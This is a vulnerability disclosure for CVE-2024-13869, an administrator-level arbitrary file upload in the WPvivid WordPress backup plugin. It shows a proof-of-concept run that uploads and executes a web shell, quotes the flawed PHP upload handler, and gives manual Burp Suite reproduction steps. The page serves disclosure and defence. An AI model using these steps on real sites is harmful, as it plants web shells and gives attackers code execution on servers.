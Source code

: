 +++
title = 'Migration,Backup, Staging – WPvivid <= 0.9.112 - Authenticated (Admin+) Arbitrary File Upload via wpvivid_upload_file'
date = 2025-02-22T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "WPvivid"]
+++
### CVE-2024-13869

The [Migration, Backup, Staging – WPvivid Backup & Migration plugin](https://wordpress.org/plugins/wpvivid-backuprestore/) for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `upload_files` function in all versions up to, and including, `0.9.112`. This makes it possible for authenticated attackers, with Administrator-level access and above, to upload arbitrary files on the affected site's server which may make remote code execution possible. 
**NOTE:** Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.

## TL;DR Exploits
* A POC [CVE-2024-13869.py](https://github.com/d0n601/CVE-2024-13869/blob/main/CVE-2024-9162.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.
  
```console
python3 ./CVE-2024-13869.py https://lab0.hacker admin PASSWORD   
Logging into: https://lab0.hacker/wp-admin
Extracting nonce values...
ajax_nonce: a993fb1986
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab0.hacker/wp-content/wpvividbackups/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 46962sec preferred_lft 46962sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86190sec preferred_lft 14190sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:c7:fd:25 brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fec7:fd25/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:28:bd:99:83 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```


## Details  
It appears the `wpvivid_upload_file` action calls the `upload_files` function on line 293 of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-backup-uploader.php`, which checks the nonce and user's permissions, but not the file type being uploaded to the server.

```php
    function upload_files()
    {
        check_ajax_referer( 'wpvivid_ajax', 'nonce' );
        $check=current_user_can('manage_options');
        $check=apply_filters('wpvivid_ajax_check_security',$check);
        if(!$check)
        {
            die();
        }

        try
        {
            $chunk = isset($_REQUEST["chunk"]) ? intval(sanitize_key($_REQUEST["chunk"])) : 0;
            $chunks = isset($_REQUEST["chunks"]) ? intval(sanitize_key($_REQUEST["chunks"])) : 0;

            $fileName = isset($_REQUEST["name"]) ? sanitize_text_field($_REQUEST["name"]) : $_FILES["file"]["name"];

            $backupdir=WPvivid_Setting::get_backupdir();
            $filePath = WP_CONTENT_DIR.DIRECTORY_SEPARATOR.$backupdir.DIRECTORY_SEPARATOR.$fileName;

            $out = @fopen("{$filePath}.part", $chunk == 0 ? "wb" : "ab");

            if ($out)
            {
                // Read binary input stream and append it to temp file
                $options['test_form'] =true;
                $options['action'] ='wpvivid_upload_files';
                $options['test_type'] = false;
                $options['ext'] = 'zip';
                $options['type'] = 'application/zip';

                add_filter('upload_dir', array($this, 'upload_dir'));

                $status = wp_handle_upload($_FILES['async-upload'],$options);

                remove_filter('upload_dir', array($this, 'upload_dir'));

                $in = @fopen($status['file'], "rb");

                if ($in)
                {
                    while ($buff = fread($in, 4096))
                        fwrite($out, $buff);
                }
                else
                {
                    echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open tmp file.path:".$status['file']));
                    die();
                }

                @fclose($in);
                @fclose($out);

                @wp_delete_file($status['file']);
            }
            else
            {
                echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open input stream.path:{$filePath}.part"));
                die();
            }

            if (!$chunks || $chunk == $chunks - 1)
            {
                // Strip the temp .part suffix off
                rename("{$filePath}.part", $filePath);
            }

            echo wp_json_encode(array('result' => WPVIVID_SUCCESS));
        }
        catch (Exception $error)
        {
            $message = 'An exception has occurred. class: '.get_class($error).';msg: '.$error->getMessage().';code: '.$error->getCode().';line: '.$error->getLine().';in_file: '.$error->getFile().';';
            error_log($message);
            echo wp_json_encode(array('result'=>'failed','error'=>$message));
        }
        die();
    }
```


## Manual Reproduction
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Under `Backup & Restore`, click the `Backup Now` button to create a new backup and download it so we can use the `.zip` file in the following steps.
3. Under the `Backup & Restore` section again, navigate to the `Upload` tab and select the `.zip` we've just created. 
![pre_upload](https://github.com/user-attachments/assets/55ddbb43-ba15-47b2-88ac-dd801208049e)
4. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
5. Click `Upload` and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `wpvivid_upload_files` action.
![intercept_call](https://github.com/user-attachments/assets/6fcb8edd-9d34-4b05-b1aa-0b83c8d4795c)
6. Modify the request to include an arbitrary file, in the example below we're uploading a php web shell. 
![modify](https://github.com/user-attachments/assets/7170a0b2-a9b6-4623-919d-3f105d9e2d45)
7. Send the request and recieve `{"result":"success"}`.
![sent_modified](https://github.com/user-attachments/assets/a49b17fb-2c62-41d9-88e9-63ad77a4e164)
8. Browse the web shell at `https://example.com/wp-content/wpvividbackups/webshell.php` and execute code.
![hitshell](https://github.com/user-attachments/assets/fe5907a6-239c-4367-ad70-73c420b06443)
